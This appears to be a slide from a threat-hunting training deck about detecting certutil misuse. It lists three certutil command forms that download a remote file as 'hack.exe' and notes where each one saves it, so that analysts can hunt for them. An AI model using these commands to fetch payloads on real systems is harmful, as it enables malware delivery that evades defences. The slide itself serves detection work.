

# Certutil download possibilities
certutil –urlcache –f https://example.com/file.123 hack.exe
Downloads and saves the file in the current folder as hack.exe
certutil –verifyctl –f https://example.com/file.123 hack.exe
Downloads and saves the file to the current folder as hack.exe
certutil –URL https://example.com/file.123 hack.exe
Downloads and saves the file to %LOCALAPPDATA%low\Microsoft\CryptnetUrlCache\Content\[hash of file]
We need to hunt for all three of these possibilities
There is no need to try and achieve this all in one query if it is difficult – splitting things into multiple queries is fine